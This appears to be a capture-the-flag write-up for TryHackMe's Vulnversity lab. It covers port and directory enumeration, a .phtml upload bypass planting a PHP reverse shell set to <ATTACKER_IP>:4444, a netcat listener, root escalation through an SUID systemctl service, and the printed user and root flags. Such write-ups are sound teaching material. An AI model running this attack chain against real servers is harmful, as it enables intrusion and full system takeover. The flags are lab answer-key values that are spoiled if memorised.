### TryHackMe – Vulnversity Write-up

This write-up documents the exploitation of the TryHackMe **Vulnversity** machine, focusing on network enumeration, web enumeration, file upload bypass, and reverse shell execution.

---

### Initial Enumeration

The target machine was successfully deployed, and VPN connectivity was verified.
After confirming that the target responds to ICMP requests, the next step was to perform network enumeration to identify exposed services.

### Connectivity Check

A simple ping test was performed to ensure the target machine is reachable.

**Command:**

```
ping <TARGET_IP>
```

**Result:**
The target responded to ICMP echo requests, confirming that the machine is online and accessible.



---

### Nmap Full Port Scan

A full TCP port scan was conducted to identify all open ports and running services on the target.

**Command:**

```
nmap -sV -sC -O -T4 <TARGET_IP>
```

**Results:**
The scan revealed six open TCP ports on the target machine:

* 21/tcp – FTP (vsftpd 3.0.5)
* 22/tcp – SSH (OpenSSH 8.2p1)
* 139/tcp – NetBIOS (Samba)
* 445/tcp – SMB (Samba)
* 3128/tcp – HTTP Proxy (Squid 4.10)
* 3333/tcp – HTTP (Apache 2.4.41)

Based on service banners and OS detection results, the target machine is most likely running **Ubuntu Linux**.



---

### Web Enumeration (Port 3333)

Based on the Nmap scan results, an Apache web server was identified running on TCP port 3333.
The web application was accessed through a web browser for further enumeration.

**URL:**

```
http://<TARGET_IP>:3333
```

The page displayed a web application titled **"Vuln University"**, indicating a custom or intentionally vulnerable application.



---

### robots.txt Inspection

The robots.txt file was checked to identify any restricted or hidden paths.

**URL:**

```
http://<TARGET_IP>:3333/robots.txt
```

The server returned a 404 response, indicating that no robots.txt file is present or accessible.

---

### Directory Enumeration

Directory brute-forcing was performed using Gobuster to identify hidden directories and files on the web server.

**Command:**

```
gobuster dir -u http://<TARGET_IP>:3333 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,txt,html -t 50
```

The scan revealed several accessible directories.
Among them, the **/internal** directory was identified as particularly interesting, as it contains a file upload form that may be vulnerable to improper file validation.


---

### File Upload Enumeration

During directory enumeration, the **/internal** directory was identified as containing a file upload form.
This functionality was further investigated as file upload mechanisms are often vulnerable to misconfigurations.

**URL:**

```
http://<TARGET_IP>:3333/internal/
```

The page presents a file upload form, suggesting a potential attack vector for uploading malicious files.



---

### File Upload Restriction Testing

An initial attempt was made to upload a basic PHP file in order to evaluate file extension filtering.

**Test File:**

```php
<?php phpinfo(); ?>
```

The upload attempt was rejected, indicating that the application enforces restrictions on `.php` file extensions.



---

### File Upload Bypass

After confirming that `.php` files were blocked, an alternative PHP extension was tested to bypass the upload restriction.

A PHP reverse shell template was copied from the system webshell directory and renamed with a `.phtml` extension.

**Command:**

```
cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml
```

The reverse shell file was then edited to set the attacker’s IP address and listening port:

```php
$ip = '<ATTACKER_IP>';
$port = 4444;
```

The modified `shell.phtml` file was uploaded through the file upload form.

The upload was successful, confirming that the application relies on insufficient file extension validation.



---

### Reverse Shell Execution

A Netcat listener was started on the attacker’s machine to receive the reverse shell connection.

**Command:**

```
nc -lvnp 4444
```

After accessing the uploaded file through the browser, a reverse shell connection was successfully established.

**URL:**

```
http://<TARGET_IP>:3333/internal/uploads/shell.phtml
```

This resulted in command execution on the target system.



---

### User Enumeration

After obtaining a reverse shell, basic system enumeration was performed to identify valid user accounts on the target system.

**Commands:**
```bash
whoami
pwd
ls /home
```

The `/home` directory revealed two user accounts: **bill** and **ubuntu**.  
Based on the context of the web server and file ownership, **bill** was identified as the user managing the web server.



**Answer:** bill

---

### User Flag

Once the web server user was identified, the home directory of the **bill** user was inspected to locate the user flag.

**Commands:**
```bash
cd /home/bill
ls
cat user.txt
```


The user flag was successfully retrieved.

**User Flag:**
8bd7992fbe8a6ad22a63361004cfcedb




---

### SUID Enumeration

In order to identify potential privilege escalation vectors, all files with the SUID bit set were enumerated.

**Command:**
```bash
find / -perm -4000 -type f 2>/dev/null
```

The output revealed several SUID binaries. Among them, `/bin/systemctl` stood out as particularly interesting, as it can potentially be abused to escalate privileges under certain conditions.



---

### Privilege Escalation via systemctl (SUID Abuse)

During SUID enumeration, `/bin/systemctl` was identified as a potential privilege escalation vector.

A malicious systemd service file was generated in the /tmp directory to spawn a reverse shell as the root user.
Due to the lack of a fully interactive TTY in the initial reverse shell, the file was assembled using echo and output redirection rather than an interactive editor.



The service was then enabled and started using the SUID-enabled `systemctl` binary.

**Commands:**

```bash
/bin/systemctl enable /tmp/rootshell.service
/bin/systemctl start rootshell.service
```



As a result, a reverse shell was successfully received with root privileges.



---

### Root Flag

After gaining root privileges, the root flag was retrieved from the `/root` directory.

**Command:**

```bash
cat /root/root.txt
```

**Root Flag:**

```
a58ff8579f0a9270368d33a9966c7fd5
```


